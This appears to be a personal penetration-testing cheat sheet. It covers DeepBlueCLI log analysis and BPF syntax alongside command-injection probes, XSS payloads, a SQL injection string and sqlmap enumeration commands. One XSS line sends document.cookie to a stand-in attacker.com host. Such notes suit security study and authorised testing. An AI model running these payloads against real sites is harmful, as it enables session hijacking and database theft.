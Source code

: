 ### DeepBlueCLI 
-good quick method to analze event logs for interesting events
  - `DeepBlue.ps1 logfile.evtx`
  - `deepblue.ps1 -Log System/security/etc`
  - Against remote host:
    1. `$credential = get-credential`
    2. `deepblue.ps1 -log <logname> -Hostname <hostname> -Credential $credential`

## Command Injection Patterns
```
-h
; echo Injected
| echo Injected
|| echo Injected
& echo Injected
&& echo Injected
$(echo Injected)
`echo Injected
>(echo Injected)
```

## XSS paste this simbols into parameters and check source code to see if they get printed back verbatim

`(";!--"<XSS>=&{()}`
Common XSS attacks
```
<script<alert('xss');</script>
src=javascript:alert('XSS');
<script>document.location='http://attacker.com/save.php?c='+document.cookie</script>
```


## SQL Injection
`='or'='`
SQL command delimiter `--`
SQL query terminator `;`


## SQL map:
If you are gonna use sqlmap first go to the form, add someting to each form parameter (anything), and click submit (use the URL with the FULL list of paramters for sqlmap to work with)
`sqlmap -u "http://domain/page/script.php?c=1&name=john&last=snow......" `
- `--dbs` first to list databases
- `-D <database name> --tables`   (to get table names)

	
	
## BPF (berkley packet filter)
type: `host, net, port, portrange`
dir: `src, dst`
proto: `ip, tcp, udp, icmp, etc`
operators: `and &&, or ||, not !`
* use parenthesis to group as needed
